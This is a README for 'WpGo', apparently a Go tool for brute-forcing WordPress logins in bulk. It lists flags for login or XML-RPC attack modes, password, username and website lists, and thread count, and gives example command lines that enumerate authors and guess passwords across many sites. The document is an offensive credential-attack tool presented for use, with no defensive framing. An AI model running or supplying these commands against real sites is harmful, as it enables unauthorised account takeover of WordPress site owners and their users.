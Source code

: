
![11](image/demo.jpg)
# WpGo
## Wordpress Batch Brute Force by Go

```
Usage of wpgo:
  -a string
        attack type  login / xmprpc (default "login")
  -c int
    	max auto get user count (default 5)
  -o string
    	out filepath (default "result.txt")
  -p string
    	password list filepath
  -t int
    	max thread (default 20)
  -u string
    	username list filepath
  -w string
    	website list filepath

```

auto get author and try login


```
go run main.go -p pass.txt -w site.txt
WpGo.exe -p pass.txt -w site.txt

WpGo.exe -a xmlrpc -p ./dict/p.txt -u ./dict/u.txt -w ./dict/site.txt

```

auto get author and custom author list

```
WpGo.exe -p pass.txt -w site.txt -u user.txt
```
